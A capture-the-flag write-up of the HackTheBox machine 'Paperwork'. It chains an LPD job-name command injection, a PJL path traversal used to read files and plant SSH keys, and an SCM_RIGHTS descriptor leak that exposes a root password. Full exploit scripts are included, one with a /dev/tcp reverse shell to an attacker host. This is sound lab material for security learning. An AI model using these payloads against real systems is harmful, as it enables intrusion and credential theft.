

# HackTheBox — Paperwork Writeup

*by [ak4hit](https://github.com/ak4hit)*


> **Difficulty:** Easy | **OS:** Linux | **Release:** 2026 |

---

## Attack Path Overview

1. Nmap → port 22 (SSH) + port 80 (nginx) → `paperwork.htb`
2. Intake Portal leaks a downloadable archive → `paperwork-archive-v1.02.zip` → `server.py` source
3. LPD (Line Printer Daemon, port 1515) command injection via the `J` (job name) control field → shell as `lp`
4. Local enumeration → `jetdirect.service` running as `archivist` on `localhost:9100`
5. Path traversal in the JetDirect PJL filesystem handler → read `user.txt`, write SSH key → **User Flag** + shell as `archivist`
6. `paperwork-daemon` unix socket + `SCM_RIGHTS` file-descriptor leak → root's `ADMIN_PASSWORD` → SSH as root → **Root Flag**

---

## Step 1 — Reconnaissance

### Nmap

```bash
nmap -A <TARGET_IP>
```

```
Nmap scan report for paperwork.htb (<TARGET_IP>)
Host is up (0.54s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.0 (Ubuntu)
|_http-title: Intranet | Document Archiving Service
|_http-server-header: nginx/1.28.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
```

Only two ports are reachable from the outside — a standard `ssh` and a `nginx` web server titled *"Intranet | Document Archiving Service."* No other open TCP ports means the initial foothold has to come through the web app itself.

Add the hostname to `/etc/hosts` so the vhost resolves correctly:

```bash
sudo nano /etc/hosts
# <TARGET_IP>   paperwork.htb
```

---

## Step 2 — The Intake Portal

Browsing to `http://paperwork.htb` reveals a **Corporate Systems: Department of Records & Archives** intranet page — an "Intake Portal" for a legacy document-archiving service.



The page's **Maintenance Advisory** banner is the first real clue:

> *Backend spooler `PRN-ARCHIVE-01` management console is currently offline. Manual ingestion remains active via the legacy gateway.*

The **System Configuration** table underneath backs this up:

| Field | Value |
|---|---|
| Protocol | Compliance Level: RFC 1179 |
| Target Queue | `archive_intake` |
| Internal Processor | `paperwork-archive-v1.02` (link) |

`RFC 1179` is the specification for the **Line Printer Daemon (LPD)** protocol — this is a strong hint that somewhere on the box a legacy print-spooler service is listening, and that the "legacy gateway" mentioned in the advisory is how jobs still get submitted even with the management console down.

The `Internal Processor` link downloads the referenced component:

```
paperwork-archive-v1.02.zip   — 1.1 KB
```

```bash
unzip paperwork-archive-v1.02.zip
```

```
Archive:  paperwork-archive-v1.02.zip
  inflating: server.py
```

A single Python file — the source for the "internal processor" the portal advertises.

---

## Step 3 — Auditing `server.py` — LPD Command Injection

```bash
cat server.py
```

The relevant excerpt — a minimal LPD server bound to port **1515**:

```python
class LpdHandler(threading.Thread):
    def run(self):
        data = self.sock.recv(1024)
        command = data[0]
        if command == 2:
            self.handle_print_job(data)
        elif command in (3, 4):
            self.sock.send(b"Archive_Printer is ready and printing.\n")

    def handle_print_job(self, data):
        queue = data[1:].decode().strip()
        if queue not in VALID_QUEUE:
            self.sock.send(b'\x01')
            return
        while True:
            chunk = self.sock.recv(1024)
            subcommand = chunk[0]
            if subcommand == 2:  # Control File
                size = int(chunk[1:].decode(errors='ignore').split()[0])
                content = b""
                while len(content) < size:
                    content += self.sock.recv(size - len(content) + 1)

                decoded_content = content.decode(errors='ignore')
                job_name = "Unknown"
                for line in decoded_content.split('\n'):
                    line = line.strip()
                    if line.startswith('J'):
                        job_name = line[1:]
                        break

                subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

**What this code does, step by step:**

1. `command == 2` marks the start of a print-job submission (LPD command code for "Receive a printer job").
2. `handle_print_job()` checks the requested queue against `LPD_QUEUE` from the environment — using `queue not in VALID_QUEUE`, a *substring* check, not equality, so any queue name containing the valid string passes.
3. It then loops reading "subfile" chunks. A control-file chunk (`subcommand == 2`) contains job metadata as plain lines — hostname (`H`), user (`P`), job name (`J`), etc.
4. Whatever text follows the `J` on that job-name line is taken verbatim as `job_name`.
5. `job_name` is then interpolated into a Python f-string that becomes a **shell command executed with `subprocess.Popen(..., shell=True)`**.

The bug: `job_name` sits inside a *single-quoted* shell string with no escaping. A `job_name` containing a single quote breaks out of that string and injects arbitrary shell syntax:

```
job_name = x'; <command>; echo '
```

renders as:

```bash
echo 'Archive: x'; <command>; echo '' >> /tmp/archive.log
```

Three separate shell statements, chained by `;` — the middle one is fully attacker-controlled and executes as whatever user runs `server.py`.

### Building the Exploit

An exploit script needs to speak just enough of the (simplified) LPD wire protocol implemented by `server.py` to reach `handle_print_job()`'s control-file parsing:

```python
#!/usr/bin/env python3
import socket

TARGET = "paperwork.htb"
PORT   = 1515
QUEUE  = "archive_intake"

LHOST, LPORT = "<ATTACKER_IP>", 4444
CMD = f"bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'"
job_name = f"x'; {CMD}; echo '"

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))

    # Step 1: open a print job on the target queue (command byte 0x02)
    s.send(b"\x02" + QUEUE.encode() + b"\n")

    # Step 2: control-file chunk header — size + filename
    control_content = f"H{TARGET}\nP root\nJ{job_name}\nN archive.log\n".encode()
    size = len(control_content)
    s.send(b"\x02" + f"{size} cfA001{TARGET}\n".encode())
    print("ack1:", s.recv(1024))

    # Step 3: control-file content — this is where the injection lives
    s.send(control_content)
    print("ack2:", s.recv(1024))
    print("ack3:", s.recv(1024))

    s.close()

if __name__ == "__main__":
    main()
```

### Getting a Shell

Start a listener, then fire the exploit:

```bash
nc -lvnp 4444
```

```bash
python3 exploit.py
```

```
ack1: b'\x00'
ack2: b'\x00'
ack3: b'\x00'
```

Three `\x00` acks — the server accepted the queue, accepted the control file, and processed the job without error, which means the injected `subprocess.Popen()` call fired.

```
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] <port>
bash: cannot set terminal process group (984): Inappropriate ioctl for device
bash: no job control in this shell
lp@paperwork:/opt/LPDServer$ id
uid=7(lp) gid=7(lp) groups=7(lp)
lp@paperwork:/opt/LPDServer$ pwd
/opt/LPDServer
```

Shell as **`lp`** — the low-privilege system account that runs the LPD service. Stabilize it into a full TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
# Ctrl+Z to background the listener
```
```bash
stty raw -echo; fg
export TERM=xterm
```

---

## Step 4 — Local Enumeration: Finding JetDirect

First pass over `/etc/passwd` to see which accounts actually matter:

```bash
cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
...
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
...
archivist:x:1000:1000:archivist:/home/archivist:/bin/bash
```

Every other account is a system/service account with `nologin`. `archivist` (uid 1000) is the only real human-style user — the target for the next pivot.

Checking what's actually running as that user:

```bash
ps aux
```

```
archivi+     982  0.0  0.4  28040 17620 ?        Ss   05:03   0:00 /usr/bin/python3 ...
lp           984  0.0  0.3  94272 12604 ?        Ss   05:03   0:00 /usr/bin/python3 /opt/LPDServer/server.py
```

`archivi+` (truncated `archivist`) owns a second running Python process. Its systemd unit confirms what it is:

```bash
cat /etc/systemd/system/jetdirect.service
```

```ini
[Unit]
Description=jetdirect server
[Service]
Type=simple
User=archivist
WorkingDirectory=/home/archivist/printer/
ExecStart=/usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ /home/archivist/printer/logs/commands.log
Restart=on-failure
```

**Explanation:** `jetdirect.py` is launched **as `archivist`**, working out of `/home/archivist/printer/`, and listens on port `9100` — the well-known raw/JetDirect printing port used by real HP printers. This is a second, separate printer-emulator service running with the privileges of the target user.

Confirm it's actually up and check its bind address:

```bash
netstat -a
```

```
tcp   0   0 localhost:9100   0.0.0.0:*   LISTEN
```

**Important detail:** it's bound to `localhost:9100`, not `0.0.0.0:9100` — it is not reachable from outside the box. This is exactly why compromising `lp` first was necessary: `jetdirect.py` can only be reached from a shell already running on `paperwork.htb`.

Trying to read the source directly fails, since it's owned by `archivist` and the `lp` shell can't read it:

```bash
cat /home/archivist/printer/jetdirect.py
```

```
cat: /home/archivist/printer/jetdirect.py: Permission denied (os error 13)
```

The service itself, however, speaks **PJL (Printer Job Language)** — a real HP printer control language that includes filesystem-style commands (`FSDIRLIST`, `FSUPLOAD`, `FSDOWNLOAD`, `INFO ID`, etc.). Since `nc` isn't installed on the box, interaction is done directly via Python's `/dev/tcp`-equivalent (a raw socket):

```bash
python3 -c "
import socket
s = socket.socket()
s.connect(('localhost', 9100))
s.send(b'@PJL INFO ID\r\n')
import time; time.sleep(1)
print(s.recv(4096))
"
```

```
HP LASERJET 4ML
```

Confirmed: a real PJL parser is listening and identifies itself as an HP LaserJet 4ML. Since the service will happily hand back its own files through `FSUPLOAD`, that's the fastest way to get the source without local file permissions:

```python
# /tmp/pjl2.py
import socket, time

s = socket.socket()
s.connect(('localhost', 9100))

def send(cmd, wait=2):
    s.send(cmd.encode() + b'\r\n')
    time.sleep(wait)
    s.setblocking(False)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except BlockingIOError:
        pass
    s.setblocking(True)
    return data

out = send('@PJL FSUPLOAD NAME="0:\\jetdirect.py" SIZE=5119')
print(out.decode(errors='replace'))
```

```bash
python3 /tmp/pjl2.py
```

```
@PJL FSUPLOAD NAME="0:\jetdirect.py" SIZE=5119
#!/usr/bin/env python3
...
```

---

## Step 5 — PJL Path Traversal → User Flag

The retrieved `jetdirect.py` source exposes the bug in its `Filesystem` class:

```python
class Filesystem:
    def __init__(self, root_dir):
        self._root = os.path.abspath(root_dir)

    def _translate(self, path):
        clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
        return os.path.normpath(os.path.join(self._root, clean))
```

**Explanation:** `_translate()` strips the `0:` drive prefix and converts backslashes to forward slashes, but never filters `..` segments. `os.path.normpath(os.path.join(root, clean))` will happily resolve `../` upward past the sandboxed root directory (`/home/archivist/printer/`). This is a classic path traversal — the emulated printer's "virtual filesystem" is not actually contained.

`FSUPLOAD`/`FSDOWNLOAD`/`FSDIRLIST` all route through `_translate()`, so all three are exploitable the same way.

### Confirming the Traversal

List the parent of the printer directory (`0:..\`), which should be `/home/archivist/`:

```python
# /tmp/pjl5.py
import socket, time

s = socket.socket()
s.connect(('localhost', 9100))

def send(cmd, wait=2):
    s.send(cmd.encode() + b'\r\n')
    time.sleep(wait)
    s.setblocking(False)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except BlockingIOError:
        pass
    s.setblocking(True)
    return data

print(send('@PJL FSDIRLIST NAME="0:..\\"').decode(errors='replace'))
```

```bash
python3 /tmp/pjl5.py
```

```
. TYPE=DIR
.. TYPE=DIR
.cache TYPE=DIR SIZE=4096
.bashrc TYPE=FILE SIZE=3771
.local TYPE=DIR SIZE=4096
.ssh TYPE=DIR SIZE=4096
.profile TYPE=FILE SIZE=807
.lesshst TYPE=FILE SIZE=20
.bash_history TYPE=FILE SIZE=0
user.txt TYPE=FILE SIZE=33
.bash_logout TYPE=FILE SIZE=220
.gnupg TYPE=DIR SIZE=4096
printer TYPE=DIR SIZE=4096
```

Confirmed — `0:..\` is `/home/archivist/`. `user.txt` and `.ssh` are both directly visible.

### Reading `user.txt`

```python
# /tmp/pjl6.py
import socket, time

s = socket.socket()
s.connect(('localhost', 9100))

def send(cmd, wait=2):
    s.send(cmd.encode() + b'\r\n')
    time.sleep(wait)
    s.setblocking(False)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except BlockingIOError:
        pass
    s.setblocking(True)
    return data

print(send('@PJL FSUPLOAD NAME="0:..\\user.txt"').decode(errors='replace'))
```

```bash
python3 /tmp/pjl6.py
```

```
@PJL FSUPLOAD NAME="0:..\user.txt" SIZE=33
9a04****************************
```

🚩 **User Flag captured** — via a raw file read, before ever obtaining an interactive shell as `archivist`.

### Escalating to a Real Shell — Writing `authorized_keys`

Listing `.ssh/` shows an existing, empty, and — crucially — writable `authorized_keys`. Same `pjl5.py` script as above, just editing the `NAME=` argument passed to `send()`:

```python
# /tmp/pjl5.py  (NAME= changed to target .ssh/)
print(send('@PJL FSDIRLIST NAME="0:..\\.ssh\\"').decode(errors='replace'))
```

```bash
python3 /tmp/pjl5.py
```

```
. TYPE=DIR
.. TYPE=DIR
authorized_keys TYPE=FILE SIZE=0
```

The same script implements `FSDOWNLOAD` — an arbitrary file **write**, routed through the identical unsanitized `_translate()`:

```python
def handle_download(command, client):
    m = re.search(r'NAME\s*=\s*"([^"]+)"\s*SIZE\s*=\s*(\d+)', command, re.I)
    path, size = m.group(1), int(m.group(2))
    data = b""
    while len(data) < size:
        chunk = client._client.recv(min(size - len(data), 4096))
        if not chunk: break
        data += chunk
    return fs.write(path, data)
```

Generate an SSH keypair on the attacker machine:

```bash
ssh-keygen -t ed25519 -f ~/paperwork_key -N ""
cat ~/paperwork_key.pub
```

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB4WRyor3dRSC6mokheYQZZe2h1SFzjnITSzT53EYK96 ak4hit@ak4hit
```

From the `lp` shell, push that public key into `archivist`'s `authorized_keys` via `FSDOWNLOAD`:

```python
# /tmp/pjl_write.py
import socket, time

PUBKEY = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB4WRyor3dRSC6mokheYQZZe2h1SFzjnITSzT53EYK96 ak4hit@ak4hit\n"

s = socket.socket()
s.connect(('localhost', 9100))

def send_raw(cmd, wait=1):
    s.send(cmd)
    time.sleep(wait)
    s.setblocking(False)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except BlockingIOError:
        pass
    s.setblocking(True)
    return data

data = PUBKEY.encode()
cmd = f'@PJL FSDOWNLOAD NAME="0:..\\.ssh\\authorized_keys" SIZE={len(data)}\r\n'.encode() + data
out = send_raw(cmd, wait=2)
print(out.decode(errors='replace'))
```

```bash
python3 /tmp/pjl_write.py
```

```
OK
```

`fs.write()` returned `OK` — the file was created/overwritten under `archivist`'s privileges (the JetDirect service itself runs as `archivist`, so its writes land with that ownership).

Connect over SSH using the freshly-planted key:

```bash
ssh -i ~/paperwork_key archivist@paperwork.htb
```

```
The authenticity of host 'paperwork.htb (<TARGET_IP>)' can't be established.
...
archivist@paperwork:~$ id
uid=1000(archivist) gid=1000(archivist) groups=1000(archivist)
archivist@paperwork:~$ ls
printer  user.txt
archivist@paperwork:~$ cat user.txt
9a04****************************
```

Stable interactive shell as **`archivist`**, flag re-confirmed from a proper login this time.

---

## Step 6 — Privilege Escalation — SCM_RIGHTS File Descriptor Leak

Standard privesc enumeration first:

```bash
sudo -l
```

```
Command 'sudo' not found, but can be installed with:
apt install sudo     # version 1.9.17p2-1ubuntu1.1, or
apt install sudo-rs  # version 0.2.8-1ubuntu5.3
```

`sudo` isn't even installed — that path is closed. Checking running processes for anything owned by `root` that might be reachable:

```bash
ps aux
```

```
root         966  0.0  0.8  44060 33364 ?        Ss   03:11   0:04 /usr/bin/python3 /root/staging/CorpoSite/app.py
root        1489  0.0  0.4  28432 17968 ?        Ss   03:11   0:00 /usr/bin/python3 /usr/bin/paperwork-daemon
```

`paperwork-daemon` stands out — a root process with "paperwork" in the name, worth checking for an IPC surface:

```bash
netstat -a
```

```
unix  2      [ ACC ]     STREAM     LISTENING     14123    /run/paperwork/mgmt.sock
```

A unix domain socket. Checking its permissions:

```bash
ls -la /run/paperwork/mgmt.sock
```

```
srw-rw---- 1 root archivist 0 Jul 15 03:11 /run/paperwork/mgmt.sock
```

Owned by `root`, but **group `archivist`, mode `rw-`** — the current user can connect to and read/write this socket directly.

The daemon behind it isn't in PATH via `which`, but its full path is findable and it's a plain script:

```bash
find / -iname "*paperwork-daemon*" 2>/dev/null
file /usr/bin/paperwork-daemon
```

```
/usr/bin/paperwork-daemon
/usr/bin/paperwork-daemon: Python script, ASCII text executable
```

```bash
strings /usr/bin/paperwork-daemon | head -100
```

```python
admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
LOG_PATH = "/home/archivist/printer/logs/commands.log"

def get_admin_secret():
    data = os.pread(admin_fd, 1024, 0).decode().strip()
    if "ADMIN_PASSWORD=" in data:
        return data.split("ADMIN_PASSWORD=")[1].split("\n")[0]
    return data

def scan_for_malice():
    if not os.path.exists(LOG_PATH):
        return False
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
    return False

def trigger_lockdown(conn):
    try:
        log_fd = os.open(LOG_PATH, os.O_RDONLY)
        evidence_bundle = array.array("i", [log_fd, admin_fd])
        msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
        conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
        ...
    except: pass

def main():
    ...
    while True:
        conn, _ = s.accept()
        if scan_for_malice():
            trigger_lockdown(conn)
        else:
            secret = get_admin_secret()
            token = hashlib.sha256(f"SYSTEM_CLEAN:{secret}".encode()).hexdigest()
            conn.sendall(f"STATUS: SYSTEM_CLEAN\nSIGNATURE: {token}\n".encode())
        conn.close()
```

**What this daemon does, and why it's the vulnerability:**

- At startup, running as `root`, it opens `/etc/paperwork/admin_pins.conf` — a file the `archivist` user cannot read directly — and keeps that file descriptor (`admin_fd`) open for the daemon's entire lifetime.
- On every connection to `mgmt.sock`, it checks whether the JetDirect command log (`commands.log`) — the very log that recorded the `FSUPLOAD`/`FSDOWNLOAD`/`FSDIRLIST` traversal commands from Step 5 — contains any "suspicious" keywords.
- If it does, instead of just alerting, it calls `trigger_lockdown()`, which sends the raw, already-open **root-owned file descriptors** for both the log and `admin_pins.conf` to the connecting client over `SCM_RIGHTS` — a legitimate unix-socket mechanism for passing open file descriptors between processes.
- If the log is "clean," it instead computes and returns a SHA-256 signature seeded with the admin password — useless without knowing the password, but confirms the daemon holds it.

Sanity-check confirming the file truly isn't readable through the normal path:

```bash
cat /etc/paperwork/admin_pins.conf
```

```
cat: /etc/paperwork/admin_pins.conf: Permission denied (os error 13)
```

**The exploit path:** deliberately trip `scan_for_malice()` (trivial — the earlier PJL traversal already logged these keywords), then connect to the socket and receive the ancillary data.

### Triggering and Capturing the Leak

Send one more PJL command to guarantee a matching keyword is present in the log:

```bash
python3 -c "
import socket, time
s = socket.socket()
s.connect(('localhost', 9100))
s.send(b'@PJL FSQUERY NAME=\"0:..\\\\user.txt\"\r\n')
time.sleep(1)
print(s.recv(4096))
"
```

```
b'FILEERROR=1\r\n'
```

The path itself doesn't matter — the command just needs to appear in `commands.log` for the trigger to fire.

Then connect to the management socket and receive both the message and the passed file descriptors:

```python
import socket, array, os

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect('/run/paperwork/mgmt.sock')
s.send(b'\n')

fds = array.array("i")
msg, ancdata, flags, addr = s.recvmsg(4096, socket.CMSG_SPACE(2 * fds.itemsize))
print("Message:", msg)

for cmsg_level, cmsg_type, cmsg_data in ancdata:
    if cmsg_level == socket.SOL_SOCKET and cmsg_type == socket.SCM_RIGHTS:
        fds.frombytes(cmsg_data[:len(cmsg_data) - (len(cmsg_data) % fds.itemsize)])

print("Received FDs:", list(fds))

for fd in fds:
    try:
        data = os.pread(fd, 4096, 0)
        print(f"FD {fd} content:", data)
    except Exception as e:
        print(f"FD {fd} error:", e)
```

```bash
python3 pjl_leak.py
```

```
Message: b'ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.'
Received FDs: [4, 5]
FD 4 content: b'[127.0.0.1] connected\nCommand: @PJL FSQUERY NAME="0:..\\user.txt"\n'
FD 5 content: b'ADMIN_PASSWORD=ApparelMortuaryCedar22\n'
```

**Explanation of the result:** `recvmsg()` pulled two file descriptors out of the socket's ancillary data — `fd 4` is the daemon's own open handle to `commands.log` (confirming the trigger fired for the exact command just sent), and `fd 5` is the daemon's open handle to `admin_pins.conf`. Reading directly from `fd 5` with `os.pread()` bypasses the filesystem permission check entirely — the kernel already validated access when `root` opened the file; passing the descriptor hands that access straight to the client process.

Root's admin password is now known: `ApparelMortuaryCedar22`.

---

## Step 7 — Root Shell → Root Flag

```bash
ssh root@paperwork.htb
```

```
root@paperwork.htb's password: ApparelMortuaryCedar22
```

```
root@paperwork:~# id
uid=0(root) gid=0(root)
root@paperwork:~# ls
quarantine  root.txt  staging
root@paperwork:~# cat root.txt
ce28****************************
```

👑 **Root Flag captured.**

---

## Full Attack Chain

```
Nmap → nginx:80 (paperwork.htb) + SSH:22
              ↓
     Intake Portal → download paperwork-archive-v1.02.zip
              ↓
     server.py source → LPD (port 1515) command injection
     unsanitized `J` job-name field → shell metacharacter breakout
              ↓
     Reverse shell as lp
              ↓
     Enumeration → jetdirect.service (port 9100, localhost)
     running as archivist, PJL/JetDirect emulator
              ↓
     Path traversal in Filesystem._translate() (no ".." filtering)
     FSUPLOAD → read user.txt            🚩 USER FLAG
     FSDOWNLOAD → write ~/.ssh/authorized_keys
              ↓
     SSH as archivist
              ↓
     /run/paperwork/mgmt.sock (group archivist)
     paperwork-daemon watches commands.log for FSQUERY/FSUPLOAD/FSDOWNLOAD
     "malicious" activity → leaks root-owned FDs via SCM_RIGHTS
              ↓
     Dirty the log → connect → recvmsg() ancillary data
     → read ADMIN_PASSWORD directly from root's file descriptor
              ↓
     SSH as root                          👑 ROOT FLAG
```

---

## Key Takeaways

- **String-formatted shell commands are always one quote away from disaster.** `server.py`'s `subprocess.Popen(f"echo '...{job_name}...'", shell=True)` trusted a value taken straight from network input. Any single-quote in that value breaks out of the intended string and executes attacker syntax.
- **Legacy printer protocols (LPD, PJL/JetDirect) are still real attack surface.** Both services on this box implement decades-old RFC 1179 / HP PJL semantics, and both had implementation bugs — reinforcing that "obscure old protocol" doesn't mean "safe protocol."
- **Path traversal is still path traversal, even inside a printer's virtual filesystem.** `_translate()` treated `0:` as a drive prefix but never stripped `..`, letting a sandboxed "print spooler directory" become full read/write access to the service user's home folder.
- **`SCM_RIGHTS` over unix sockets can silently defeat filesystem permissions.** A daemon that means to *alert* on suspicious activity instead handed the attacker a live file descriptor to a root-only config file — proving that permission checks on a *path* don't protect an already-open *file descriptor* passed to another process.
- **Defense-in-depth features can become the vulnerability.** The `paperwork-daemon`'s "forensic evidence" mechanism — designed to snapshot and hand off proof of tampering — was itself the privilege escalation primitive, because it never considered that the "investigator" on the other end of the socket might be the attacker.

---

*HackTheBox · Paperwork · Medium · Linux · by [ak4hit](https://github.com/ak4hit)*
